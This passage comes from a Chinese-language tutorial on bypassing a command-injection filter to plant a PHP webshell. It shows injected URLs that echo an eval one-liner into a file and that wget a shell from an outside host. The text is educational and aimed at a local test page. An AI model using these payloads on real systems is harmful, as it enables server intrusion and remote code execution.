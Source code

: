 | 以及.都被替换成 _(下横)，出现 `// \\` 路径符号则提示 Not current directory(非当前目录)，写 shell 需要.(点)加后缀 ,如果直接写文件

```
http://localhost/test.php?id=aaaa;echo <?php eval($_REQUEST[v]);?> >zzz.php 
```

那么得到的文件名是 zzz_php,这里也不能用\ 来转义.

![2014030416170030636_png.jpg](img/img7_u46_jpg.jpg)

小伙伴们可能会说,妈蛋,不是还能下载文件吗. 代码这样写

```
http://localhost/test.php?id=aaaa;wget www.ccav.com/shell.php 
```

那么得到的结果是:

```
Not current directory 
```

因为包含了.(点)跟路径符号.

## 0x02 绕过方式

* * *

到这得考虑如何绕过过滤分别使用两个方法得 shell.

```
1 如何 echo 写 shell 
2.如何通过下载得 shell 
```

### 第一种方法：

如何 echo 写 shell,以写一句话 PHP 木马为例,主要解决的是.(点)的问题,$(美元符号),以及>(管道符号)和括号.我这里使用的方法是”借花献佛”

echo 完整的语句如下:

```
echo <?php eval($_REQUEST[v]);?> >test.php

```

既然不能生成那就 ”借”,直接借现有文件中的字符.可以从变量中借或者从现有的文件中借.用到的方法是 linux Shell expr 的方法.

如下图,打印了 test.php 文件中第一行的 6 个字符，要做的就是把需要的字符都从文件中借过来。(示例的 test.php 就是漏洞文件本身)

![2014030416213050474_png.jpg](img/img8_u25_jpg.jpg)
